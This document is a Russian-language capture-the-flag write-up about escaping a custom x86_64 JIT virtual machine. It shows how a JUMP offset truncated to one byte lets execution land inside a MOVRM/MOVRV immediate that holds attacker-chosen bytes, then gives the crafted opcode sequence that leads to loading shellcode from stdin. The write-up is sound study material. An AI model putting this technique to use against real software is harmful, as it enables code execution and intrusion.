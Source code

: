 ![Task](task.png)

Таск на побег из виртуальной машины.
Программа может скомпилировать свои инструкции в стандартные инструкции x86_64 и запустить их в RWX сегменте (`0x400000000`). Данные хранятся в отдельном RW сегменте (`0x300000000`). Указатель на данные хранится в регистре `R15`, любое обращение к данным происходит через этот регистр. Машина поддерживает чтение символов из stdin в память через опкод `IOIN`.

# Уязвимость
Рассмотрим компиляцию инструкции `JUMP`:

```cpp
void JUMP::set(byte* code_mem, size_t pos) {
  value = code_mem[pos+1];
}

int JUMP::compile(byte* memory,size_t pos) {
  byte* current = Interpreter::code_memory+Interpreter::ip+2; //start opcode to count which number of bytes we should jump
  size_t jump_value = 0;
  for(size_t i = 0; i < value; i++) {
    byte opcode = *current;
    jump_value+=Interpreter::handlers.at(opcode)->get_compiled_size();
    current+=Interpreter::handlers.at(opcode)->get_size();
  }
  memory[pos++] = 0xeb;
  memory[pos] = jump_value-2;
  return 2;
}
```

Для того, чтобы рассчитать смещение по которому нужно прыгнуть в режиме выполнения машинного кода, компилятор проходит по каждой из перепрыгиваемых виртуальных инструкций и суммирует их размер после компиляции (`->get_compiled_size()`).
Затем это 8-байтовое значение записывается в память как... байт. Этот байт можно переполнить и перепрыгнуть на нелегитимный адрес, например в середину другого опкода.

# Экплуатация
Задача - получить такой `jump_value`, чтобы в результате переполнения опкод `jmp` прыгал в середину другого опкода, в место, где будут контролируемые нами данные.
Для хранения контролируемых данных я использую опкод `MOVRM`, так как он позволяет разместить 4 байтовое число в скомпилированном коде:
```cpp
int MOVRM::compile(byte* memory,size_t pos) {
  memory[pos++] = 0x49;
  memory[pos++] = 0x8d;
  memory[pos++] = 0x87; //lea rax, [r15+addr], r15 contains data memory;
  *(uint32_t*)(memory+pos) = addr;
  pos+=4;
  ...
```

В самих контролируемых данных будет инструкция `mov R15, RAX` так как на момент старта выполнения в регистре `RAX` хранится указатель на сегмент данных.

Методом проб и ошибок получилось подобрать нужное смещение и нужные опкоды после `JUMP` для того, чтобы прыгнуть внутрь `MOVRV`:
```
JUMP,0x21
MOVRR,0,0
MOVRR,0,0
MOVRV,1,0xc7894990
IOIN,ff,1c
IOIN,0,0
IOIN,0,0
IOIN,0,0
...
```

`MOVRR` в данном случае используется для отступов.

Вот, что мы имеем в gdb:
![gdb](gdb.png)
![gdb2](gdb2.png)

Далее записываем шеллкод в stdin. Вот и все.
